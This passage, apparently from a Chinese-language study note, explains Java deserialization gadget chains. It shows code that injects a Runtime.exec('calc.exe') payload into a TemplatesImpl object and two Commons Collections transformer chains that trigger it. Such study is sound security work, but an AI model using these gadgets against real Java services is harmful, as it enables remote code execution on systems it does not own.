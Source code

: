 ```java
    public static class StubTransletPayload extends AbstractTranslet {
        public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}
        public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
```

extends AbstractTranslet 的 StubTransletPayload 是我们生成 Templates 必备的一个类，setFieldValue，也是我们在创建 templates 时用到的方法，加上下面的代码我们可以创建一个恶意的 templates

```java
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath((new ClassClassPath(StubTransletPayload.class)));
        CtClass clazz = pool.get(StubTransletPayload.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        clazz.setName("sp4c1ous");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] { clazz.toBytecode() });
        setFieldValue(templates, "_name", "HelloTemplatesTmpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
```

### 子弹2.1

```java
    Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
```

### 子弹2.2

```java
    Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };

        ChainedTransformer transformerChain = new ChainedTransformer(transformers);
```
